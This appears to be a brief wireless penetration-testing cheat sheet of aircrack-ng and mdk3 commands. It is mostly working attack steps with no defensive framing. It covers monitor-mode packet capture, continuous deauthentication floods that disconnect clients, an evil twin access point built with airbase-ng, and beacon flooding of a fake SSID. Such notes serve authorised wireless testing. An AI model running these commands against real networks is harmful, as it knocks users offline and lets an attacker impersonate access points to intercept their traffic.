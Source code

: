 Wireless Pen-testing cheats
===========================

<pre>
# wireless interface must be in promiscuous mode
$ iwconfig #shows all network devices and their modes
</pre>


<h4>Packet Captures</h4>
<pre>
$ ifconfig wlan0 up #brings up wireless card
$ airmon-ng start wlan0 #creates interface on top of the card
$ ifconfig #ensure interface mon0 has been created
$ wireshark & 

click capture interfaces
click start on mon0
</pre>


<h4>Deauthentication Packets:</h4>
<pre>
aireplay-ng --deauth 0 -a <ap-mac-address> -c <client-mac-address> mon0 
#mac address of SSID is found in frame control as destination
</pre>

<h4>Evil Twin attack:</h4>
<pre>
$ airmon-ng start wlan0
$ airodump-ng mon0 #find the AP
$ airbase-ng -a AA:AA:AA:AA:AA:AA -e public -c 11 mon0 #at0 is created as faux interface
$ ifconfig at0 up 
$ aireplay-ng --deauth 0 -a <ap-mac-address>  mon0
</pre>


<h4>MDK (murderdeathkill)</h4>
<pre>
$ mdk3 mon0 b -n pwnsauce     #creates SSID 'pwnsauce' on mon0 broadcast on all channels
</pre>



